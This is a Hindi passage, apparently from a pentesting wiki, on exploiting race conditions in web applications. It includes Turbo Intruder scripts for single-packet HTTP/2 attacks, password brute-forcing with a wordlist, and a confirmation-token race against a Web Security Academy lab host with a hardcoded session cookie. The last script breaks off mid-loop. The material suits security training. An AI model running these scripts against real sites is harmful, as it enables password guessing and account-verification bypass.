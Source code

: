 ### सर्वर आर्किटेक्चर के अनुकूलन

लक्ष्य की आर्किटेक्चर को समझना महत्वपूर्ण है। फ्रंट-एंड सर्वर अनुरोधों को अलग तरीके से रूट कर सकते हैं, जो समय को प्रभावित करता है। महत्वहीन अनुरोधों के माध्यम से पूर्व-निर्धारित सर्वर-साइड कनेक्शन गर्म करना, अनुरोध समय को सामान्य कर सकता है।

#### सत्र-आधारित लॉकिंग को संभालना

PHP के सत्र हैंडलर जैसे ढांचे सत्र द्वारा अनुरोधों को अनुक्रमित करते हैं, संभावित रूप से कमजोरियों को अस्पष्ट करते हैं। प्रत्येक अनुरोध के लिए विभिन्न सत्र टोकन का उपयोग इस समस्या को हल कर सकता है।

#### दर या संसाधन सीमाओं को पार करना

यदि कनेक्शन गर्म करना प्रभावी नहीं है, तो वेब सर्वर की दर या संसाधन सीमा विलंब को जानबूझकर एक डमी अनुरोधों के बाढ़ के माध्यम से सक्रिय करना एकल-पैकेट हमले को सुविधाजनक बना सकता है, जिससे सर्वर-साइड विलंब उत्पन्न होता है जो race conditions के लिए अनुकूल है।

## हमले के उदाहरण

* **Tubo Intruder - HTTP2 सिंगल-पैकेट हमला (1 एंडपॉइंट)**: आप अनुरोध को **Turbo intruder** (`Extensions` -> `Turbo Intruder` -> `Send to Turbo Intruder`) पर भेज सकते हैं, आप अनुरोध में उस मान को बदल सकते हैं जिसे आप **`%s`** के लिए ब्रूट फोर्स करना चाहते हैं जैसे `csrf=Bn9VQB8OyefIs3ShR2fPESR0FzzulI1d&username=carlos&password=%s` और फिर ड्रॉप डाउन से **`examples/race-single-packer-attack.py`** का चयन करें:

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

यदि आप **विभिन्न मान भेजने** जा रहे हैं, तो आप कोड को इस कोड के साथ संशोधित कर सकते हैं जो क्लिपबोर्ड से एक शब्द सूची का उपयोग करता है:
```python
passwords = wordlists.clipboard
for password in passwords:
engine.queue(target.req, password, gate='race1')
```
{% hint style="warning" %}
यदि वेब HTTP2 का समर्थन नहीं करता (केवल HTTP1.1) तो `Engine.THREADED` या `Engine.BURP` का उपयोग करें, `Engine.BURP2` के बजाय।
{% endhint %}

* **Tubo Intruder - HTTP2 एकल-पैकेट हमला (कई एंडपॉइंट)**: यदि आपको 1 एंडपॉइंट पर एक अनुरोध भेजने की आवश्यकता है और फिर RCE को ट्रिगर करने के लिए अन्य एंडपॉइंट्स पर कई अनुरोध भेजने की आवश्यकता है, तो आप `race-single-packet-attack.py` स्क्रिप्ट को इस तरह बदल सकते हैं:
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=1,
engine=Engine.BURP2
)

# Hardcode the second request for the RC
confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a9c00370490e77e837419c4005900d0.web-security-academy.net
Cookie: phpsessionid=MpDEOYRvaNT1OAm0OtAsmLZ91iDfISLU
Content-Length: 0

'''

# For each attempt (20 in total) send 50 confirmation requests.
for attempt in range(20):
currentAttempt = str(attempt)
username = 'aUser' + currentAttempt

# queue a single registration request
engine.queue(target.req, username, gate=currentAttempt)

```